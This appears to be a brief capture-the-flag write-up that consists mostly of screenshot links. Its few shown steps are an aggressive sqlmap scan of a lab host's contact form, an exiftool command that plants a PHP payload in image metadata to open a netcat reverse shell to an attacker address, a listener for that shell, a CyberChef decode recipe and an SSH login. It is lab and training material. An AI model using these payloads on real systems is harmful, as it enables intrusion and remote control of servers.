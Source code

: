 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/93f21a62-b8f3-4bbb-86fb-2c044a001199)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72bf2211-6966-45ac-b446-6ce76dea7192)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f896c2bc-b5e9-4103-9d85-0495b3a8fb0f)
```
sqlmap -u "http://62.173.140.174:18300/contact.php" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --data="name=as&email=d%40d.ru&message=a"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0493d916-2315-4600-94e5-02462f636eb0)
```
exiftool -DocumentName="<?php system('nc IP 1234 -e /bin/bash'); ?>" file.png
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/222fd2ea-78b4-40b5-aa09-d368967f1602)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7ced86ab-f32f-4b13-8900-ac81d5a976ef)
```
nc -lnvp 1234
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a8dfb044-bbf5-4b52-8156-52085959b4d5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7855fbb-c57d-48f5-8e90-f2ea72b76f8b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d5622e7-4060-4da7-af10-a7dc7dc63ef9)

... revers ing ...

... stega ...

https://fotoforensics.com/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b6bb709e-5498-4daa-9c4c-c291c30acd00)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3db90e76-6baa-4f4f-9346-d90be73d92b3)

https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XOR(%7B'option':'UTF8','string':'Anton'%7D,'Standard',false)&input=Kei

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f8ccbac6-8e8e-40a2-b72a-682c55c2be43)
```
ssh thomas@62.173.140.174 -p 18322
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bb11cc18-22f3-4f08-ac21-4dbcdcddb63a)



